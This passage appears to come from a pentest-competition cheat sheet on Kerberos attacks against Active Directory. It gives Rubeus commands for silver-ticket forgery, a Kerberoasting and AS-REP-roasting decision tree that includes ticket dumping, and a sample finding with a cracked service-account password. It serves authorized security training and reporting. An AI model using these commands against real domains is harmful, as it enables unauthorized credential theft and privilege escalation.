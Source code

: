 ```powershell
# Silver ticket
Rubeus.exe silver /rc4:SERVICE_HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /service:cifs/SERVER.corp.local /ptt

# Purge tickets
Rubeus.exe purge

# Describe ticket
Rubeus.exe describe /ticket:ticket.kirbi
```

---

## CPTC Decision Tree

```
On Windows machine with domain access?
├─ YES (even low-priv user)
│   │
│   ├─ Rubeus.exe kerberoast (30 sec)
│   │   ├─ SPNs found? → Crack hashes → Use creds
│   │   └─ No SPNs? → Try AS-REP roast
│   │
│   ├─ Rubeus.exe asreproast (30 sec)
│   │   ├─ Vulnerable users? → Crack → Use creds
│   │   └─ None? → Monitor or move on
│   │
│   └─ Have admin rights?
│       ├─ YES → Rubeus.exe dump → Steal tickets
│       └─ NO → Rubeus.exe monitor (background)
│
└─ NO (using Kali/Linux)
    └─ Use Impacket instead:
        - GetUserSPNs.py (Kerberoasting)
        - GetNPUsers.py (AS-REP roasting)
```

---

## Evidence Collection

**For Kerberoasting finding:**
```
Command: Rubeus.exe kerberoast /outfile:hashes.txt

Output: 3 SPN accounts found
- sqlservice (MSSQLSvc/SQL01:1433)
- webservice (HTTP/web01)  
- backupservice (backupexec/backup01)

Hash cracked: sqlservice:SQLPass123!

Impact: Service account 'sqlservice' has weak password.
Account has admin rights on SQL01, SQL02, SQL03.
Full database access achieved.
```

---